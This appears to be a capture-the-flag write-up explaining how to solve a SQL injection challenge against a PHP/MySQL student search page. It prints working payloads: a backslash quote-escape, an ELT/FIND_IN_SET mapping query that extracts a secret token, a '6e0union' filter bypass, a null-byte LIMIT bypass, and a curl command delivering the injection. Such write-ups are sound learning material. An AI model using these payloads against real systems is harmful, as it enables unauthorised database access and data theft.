 ## Writeup
### Intended solution
The give patch shows that some security mechanism were added. One of them was a blacklist that filters some chracters in the search string:
```php
$blacklist = array('\'', '"', '/', '*');
return str_replace($blacklist, '', $input);
```
But this sanitize function is incomplete and doesn't filter the backslash character, which allows us to escape the last single quote where the search query is inserted, like so:
```MySQL
WHERE first_name='injection here and escape last quote like so # \'
OR last_name='injection here and escape last quote like so \'
ORDER BY id ASC LIMIT 5
```

This allows us to do a SQL injection, but the problem is that we couldn't use 'union' because it is being detected and and exception is thrown (or not, see the unintended solution section).
Another limitation is the 'LIMIT 5' at the end, which we can't bypass because there is a newline between the injection and the limit statement and we can only perform single line comments (or not, see the second unintended solution).

Furthermore, the patch also introduces as token which changes after every 10 requests, that means that we have to perform an injection that allows us to extract the token in less than 10 requests.
It was also possibel to retrieve a database dump from the students, by navigating to the panels section (it was hidden as a HTML comment), this dump will be usful for the final injection query.

How do we extract a 40 chracter string using the above injection in less than 10 tries?!

The idea is to create a mapping between user id (given as a search result) and a character in the string as well as the string position. For example, when the student with ID 1 is returned, that means that we have chracter 'a' at the first posiiton in the string, if student with ID 20 is returned that would mean that the second position in the string is an 'a'. This allows us to read 5 chracters at a time (with enough students to create the mapping).

This could be the mapping for the first position in the string, so if one of these IDs is returned we know which chracter is at the first position.
| 1 | 3 | 4 | 6 | 7 | 10 | 11 | 13 | 14 | 16 | 18 | 19 | 20 | 21 | 22 | 23|
|---|---|---|---|---|----|----|----|----|----|----|----|----|----|----|---|
| a | b | c | d | e | f  | 0  | 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9 |

To do this kind of mapping in MySQL we can use the functions **ELT** and **FIND_IN_SET**

So our injection will look like this:
```
 OR id IN (<mapping right here>)
```

Here is what the mapping looks like from my exploit (for the first 5 chracters of the token):
```
 OR id IN (
 (select elt((select find_in_set((select substring(token, 1, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),1,2,3,4,5,6,7,8,9,11,12,14,16,17,20,24)),
 (select elt((select find_in_set((select substring(token, 2, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),25,26,27,31,32,33,34,35,36,37,38,39,40,41,42,43)),
 (select elt((select find_in_set((select substring(token, 3, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),44,45,46,47,48,49,50,51,52,53,55,56,57,58,59,60)),
 (select elt((select find_in_set((select substring(token, 4, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),61,62,63,64,66,67,69,70,71,72,73,74,75,76,77,78)),
 (select elt((select find_in_set((select substring(token, 5, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),79,80,81,82,83,84,85,89,90,91,92,93,94,95,96,97))
 ) # \
```

The above statement is one request and returns 5 chracters, we can repeat that 7 more times to get the rest of the 35 chracters.

### Unintended solution
Unfortunately there is also an unintended solution (which I didn't know about that that could actually work) which bypasses the union check.
It can be bypassed with some MySQL madness (I have no idea why this even works), which I didn't know about even existed, so something new is learned, but it made the challenge easier than expected :/

```
or 1=6e0union select 1,2,3 #\
```

I hope you still had fun working on it.

### Unintended solution 2
It was actually possible to bypass the 'LIMIT 5' by ending the payload with a semicolon followed by a null byte and the the backslash.

The backslash will escape the end of quote.
The null byte will kill the stream because mysql_query() would interpret it as EOS.
The semicolon will tell the database it is the end of the request.

```
MySQL
WHERE first_name='injection here and escape last quote like so ;\x00\'
OR last_name='injection here and escape last quote like so ;\x00\'
ORDER BY id ASC LIMIT 5
```
######Using cURL
```
curl -X POST --data "name= OR id=<injection>;%00\&site=default&action=search" <Website> 
```
Using this technique allowed the output of 160 ids at the time, making the challenge possible to solve in a single request with the "intended" way using mapping.
